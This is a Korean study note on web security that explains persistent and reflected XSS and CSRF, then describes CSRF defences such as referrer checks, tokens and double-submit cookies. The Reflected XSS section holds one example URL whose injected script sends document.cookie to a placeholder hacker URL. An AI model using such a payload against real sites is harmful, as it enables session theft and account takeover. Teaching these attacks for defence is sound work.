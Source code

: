 # 04. XSS, CSRF Attack

## XSS Attack

XSS는 Cross-Site Scripting의 줄임말로 웹 사이트에 스크립트를 삽입하여 공격하는 방식입니다.

스크립트를 삽입하기 위해서 사용자가 글을 쓰고 읽을 수 있는 게시판 등에 많이 사용하며 이를 통해 다른 사용자의 쿠키를 탈취하여 세션ID를 사용하여 로그인할 수 도 있습니다.



### Persistent XSS

Persistent의 의미대로 지속적으로 피해를 입히는 XSS 공격 방식입니다.

예를 들어 해커의 악성 스크립트가 담긴 게시글이 DB에 저장되고, 다른 사용자들은 그 게시글을 읽을 때마다 지속적으로 공격을 받게 됩니다.



### Reflected XSS

사용자에게 입력받은 값을 서버에서 그대로 응답하는 경우 사용하는 XSS 공격 방식입니다.

예를 들어 해커가 URL 안에 악의적인 스크립트를 함께 첨부하여 해당 URL을 눌렀을 때 공격을 받게 됩니다.

``` 
http://mysite.com?search=<script>location.href("{해커의 URL}?value="+document.cookie);</script>
```



## CSRF Attack

CSRF는 Cross Site Request Forgery의 줄임말로 사용자가 자신의 의도와 다른 행위를 요청하도록 하는 공격입니다.

여기서 말하는 자신의 의도와 다른 행위란 생성, 수정, 삭제 등을 말합니다.

예를 들어 자신의 개인 SNS 계정에 특정 광고를 기재 할 수 있는 것이죠.

사용자가 SNS에 로그인한 상태에서 해커가 의도한 페이지를 열게 되면 해당 페이지의 스크립트가 SNS에 글을 쓰게 하는 요청을 날리고, SNS는 로그인한 사용자이기 때문에 해당 요청을 문제없이 받아들이게 됩니다.



CSRF 공격을 방지하는 방법에 대해 알아봅시다.

### Referrer 검증

서버에서 request의 referrer을 확인하여 domain이 일치하는 지 검증하는 방법입니다.

하지만 같은 domain 내 페이지에 XSS 취약점이 있을 경우에는 referrer을 확인해도 CSRF 공격에 취약해질 수 밖에 없습니다.

> HTTP Referrer란
>
> 각각의 사이트에 방문 시 남는 흔적을 말합니다.
>
> A사이트에서 B사이트로 이동하는 하이퍼링크를 통해 이동할 때 B사이트에서 해당 유저가 A사이트를 통해 자신의 사이트에 방문한 사실을 알 수 있게 해줍니다.





### CSRF Token

CSRF 공격을 방지하기 위해 token을 사용하는 방법입니다.

사용자의 세션에 임의의 난수로 만들어진 token을 저장하고 사용자의 요청마다 해당 난수 값을 포함시켜 전송합니다.

 서버에서는 세션의 token과 사용자 요청의 token을 비교하여 공격을 방어합니다.





### Double Submit Cookie 검증

웹의 Same Origin 정책으로 인해 프론트에서 다른 domain의 쿠키 값에 접근할 수 없다는 점을 이용한 방법입니다.

요청을 보낼 때 임의의 난수로 만들어진 token을 쿠키에도 저장하고 파라미터로도 넘겨서 서버에서 두 값이 일치하는지 검사합니다.

> 주로 사용하는 프레임워크 Django가 이 방법을 사용합니다.
>
> 이 방법을 알기 전 까지는 위에서 언급한 `CSRF Token` 방법인지 알고 도대체 서버에서 언제 어디서 저장하는지 코드를 다 까봤던 기억이 있네요.





## 레퍼런스

https://noirstar.tistory.com/266

https://itstory.tk/entry/CSRF-%EA%B3%B5%EA%B2%A9%EC%9D%B4%EB%9E%80-%EA%B7%B8%EB%A6%AC%EA%B3%A0-CSRF-%EB%B0%A9%EC%96%B4-



## 질문할 사항



## 추가 공부할 키워드

* 다른 공격 방법들도 있을까